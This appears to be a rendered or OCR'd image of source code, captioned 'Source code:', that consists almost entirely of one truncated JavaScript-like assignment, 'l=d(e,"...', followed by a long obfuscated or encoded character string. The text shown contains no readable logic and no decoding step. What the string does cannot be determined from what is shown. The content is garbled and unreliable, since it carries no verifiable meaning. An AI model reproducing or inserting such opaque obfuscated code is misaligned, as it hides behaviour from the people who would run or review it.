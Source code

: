 l=d(e,"U!t_XbhZao2^=pDQ2m=2tQoXQ^h_=_taaphh^a!DapD^DpbZ^b!2ZQDt==XQ=_QQZDQZ2o!^Z!ph_^%^bb=!_aohQDba=h_soapDX22p_foZapQZbb^2!QD2ba=%!aZoD-X2Xo^X!!Zhp^_DX+2b!XZDpo_Q^Zh2p!_toZQ=bQbb==XHQZh=^QtXaoD=phbo=pgDobDpb2^^t=ao==X^=XQXZhDDXR}2Z_pt_Zo=QQ!tZopb_Q22h!=2toaDQ_bh_p=_tbopQX^at=aHDbX22p2h!2a=DaX2=tQDabppX22^!=Zo^=_^^Xhh=DtDo_Qab^b!=a_=tpba=ZtIabD2XphX=X!pa^Dpbo^ettZoDQXhepa!pb_2oQ3tQ^hQD!_poQ!ZXZ=p__o_&=hapb!!oj&o^^tha_DaXp^qo2!po!=pX==b^!p=X^2XxohDp!p__a2^FaZ==DXhoaQDhp=^o!Qpbo^Dt_ahopQphh==tQa^Qbb_!ZabpQXX2o*=QhZoDpto2at!b!p_X^ophZpatQoXQob=htp{_ao=QabDpt_ia2jOb2=btoDbXo2D!_ZappXt2ZX=Z_DW_^21Tbhah!pbXZ2_&bZp^X__2=bD=btha^QO^attamQhD^hY^_!aZpDjpoXp^Q!^ZpQb_!^a!AZppDXQ2=DQhDDZp_QDhD=ht^onQ_QDh2=Q_ oH6Xht^=_ta=QZb^!ZZ^DGXb22{QbXXaZD2b!phppt_Zo2hDpo_QoDKZho==_aoZ0!hb=at2o8Qob^=Xt2aaDDDZXD2Q!XZop=QtXo^pZXDo_=2!uhhohtphXa2XIhZD2D_Xo2Q2Z_=Q_=ZaQZZAb=aZQDXQ^X!oZ=hhDobpaQt_aaDoX^22GpabpQX22DDoh^D__b_ohXpXt=o!QhbohQ=h_2aDQ=bD=2t!o_D2h9^ZZDQXXh2^!HZ_bpDSbXah!2ZQD*Xt2!VXZ=phX!2bDkhtp2t=QhhX^Dt_aaD^Q2ht^ot!obQ^bD^2tXatXh2Q(DZ_pa_^XD2h<oZopDoptahb=2tQotopRDZ_pX_=ha=ttZ=atZ25QDb_=t__XDDabo^=D_abDZXb^2IDaXQdd^2oKZZDpaX!2_(!_tpbX_oXbD=htha^QVb_ht=2t!aobx=!!aZpDtXbb^^tthZhpQXp2Q!^ZtDX_^^!ea=QXaoZQ=h!=X21#Xht=^tpo_Qoh_=Xt=apQ!b=^DtPaXDZbb^X!aZQZhQh_D2_Sah^htp^X!^/=tZXp!XboZBQh!=Z_hoX^Xhtp!D_oaQQh!=^t!aXQ2bB^XD_DPXh2aTpZtX2^!5_*aZ!p&_bo2Ztpa_^oZ0!bQbQ!XtZa=Q!bXbQp%_bohQDt2aXDoo!Dbh{Z=!2a!Q!X2^=-DahDoX>^t#aZoppXaoDq=ZZoh_C2!?Xt^2DtZZtQoXppt!taZQ^bZ=_t=atQX!ZZ^!=Z^QXb_^D!pa_poXh^Xpbhopp_^hhiohtpo_QobTZto=_tbopDQt!=t_Mo!Qb^!!bZ2pQXX2o.Dh_!Z_Q2p<Zh=p!_Xtp2!!_hQp!Xoa7QQZahXaQ%hbZ^=t!aXba^Dt2apDDb!^D!=aZD^Xp^b!bZoD_XZ22gpZ_h=QX_XooQDh!h=ppXt2_d^_Zo!QhoZQhhQ=ptto!+t!p^Ztaa^^tbX^h!Xaoppb_^Qp2Z2DaXo2pptZbD__XQDho=ht^osQ_+ah3p!_2aQTtha!QaDDZX=^!!XQDa!Qb_!^+tobop^b_2b2opX_Qo=5!hh=op__h22Y!hbp_X/Qbha^pttaZD2QDh!2a,QhpQ!b_^_eQZQD!Xp2wQDZD_D^^&hh^p?__t_226QZ_^p_XoZQab!pZ_2ohB4bD=Q?oaQDQbX^2tahEQabp=YZoDoX!2hC^hDaXp^XQ2p>2ZDpPXao2NEhQ=po_Q2b^=(tbD=ha=a!DtW2^DaXp^t!b(=abD^b2h=!ZZQDZXbhbt!ZBDZQo2D!bZZD!_Zo2!{hh=2D^2ZQDhD=ZDXZhQpht=h!GaZD2<=2ZDoD!bZ2olDZ_ph=eX_^ZQaZQpZXX2b!hZ_^h_b2DpDhdpat2tDbo=ht!ahD^XD_X=ttXoODZbo^1thZpXX2^;=Z!ph2Q!oZb=Qp!_=ooQDh_=hpg__2ZQQhtp9_pQth%^2!QaXDZDoXD=t!DobD=bh^!!ZaQXt^_m2hQpX_Z_ooaDDatp=_DaZ82b!2=Xyobpp=ItXaoDDb_^a!patDZht^!!hZ^D!Xb22HQZhDE_D2_?ah^aApXXQ2XkZZ^_}obQ2bQ=htQaDQ_ba=Q2ZaZDDb!^Z!^axDbX2=X!XZ=pDX_2aspZtpZXt2!(2h^p!_bo2QQhXpCtDobQah!=ttZa=Q!h=^^ttabD2XQ^X!oZDQ*Xa2p!tZap=X!2h!^Z(pb_22!!oho=D__ohot4pZap2DpobG=hDp_t^ooVX!b2t!hhp=psDappaD_bt2^!jZbpap(b_22!=tQpQ_D^Z=_Xtapoa>2hz=bt2apZ!lbh2=^tpa=DQhZ=!t=o>2ZthZ!Z=DhXX2oFDZ!_2DZ_Q^WKpX2_a^tV6hb=2tpX^bZQDhXpat2oZQQ!2oZDXZbQ^hbZhE!aQQ2ba^_phohXX2ps=Z!ph_ot?2hkaa(pZo^s2h_=atpouoX*ahp=D_caQQth2=XtQo_bN^=!aZpDtXbb=^QtZZ=DwXt^2E=phXtoD1_ha=^=QXa2=lbZhDG_=ohb==XtXaoDDb!b==h!QahXD^^!hZ^DEX_X=2=!=aapQX_2b!phQ_o2_I!hh=^tDXXoDQ=_bohQ=QbZa^pttaZD2^=bp^=_bbTQhbp^btta_QXb!2a!oZaQ!_=^t!oZ^Db_^oD!Xh2=DMDoQQDZZ2;aDctbh^^tFa_hDD=h_^p!Qa_2Xb^^_thapDobhhZDh_!_=2Z(Xho=D_!_b2oYZhtpp_QoDbp=Ztba2DQbt!^=t_hapDpt^!ZZ=D!Xh2=bhZbp2_Q2X=hhDpX_aopFthZ==_!oZQ^ht=bt^aQQXbopDt=aaDQbt^o!=a2DhX^=_!bZ^pQXh2o!yZ_pabt2t*oh=pt_ho^kBab=DtQohQoh)=_tDapdXbD^=tbahD=b6^b!2ZQ_aXo^_!_ZoppXt2ZH=DZph_Q2&>oh2pX_XooQQh_=2tpohQZbp=!th2tQ